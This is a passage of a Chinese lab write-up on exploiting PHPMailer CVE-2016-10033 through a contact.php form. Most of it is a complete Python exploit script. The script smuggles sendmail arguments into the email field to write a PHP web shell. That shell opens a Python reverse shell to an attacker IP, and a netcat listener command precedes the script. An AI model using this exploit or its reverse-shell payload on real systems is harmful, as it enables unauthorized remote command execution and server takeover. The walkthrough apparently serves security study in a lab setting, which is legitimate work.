 ```bash
nc -lvnp 4444
```

* 修改exp，把target改为目标地址，backdoor为写的shell地址，修改反弹shell地址为本机ip，修改后如下：

  

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628192523424.png)



之所以加contact.php，可以看一下该漏洞成因，是因为输入的邮件地址能包含引号括起来的空格，造成参数注入。所以要找接收邮件参数的页面。就是contact.php

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628192319281.png)

```py
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.101.134:80/contact.php'#存在漏洞的目标
backdoor = '/godown.php'#后门位置

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.101.128\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'#connect到kali ip
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/godown.php server\" @protonmail.com',
        'message': 'Pwned'}#OQueueDirectory同步改为shell地址

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```
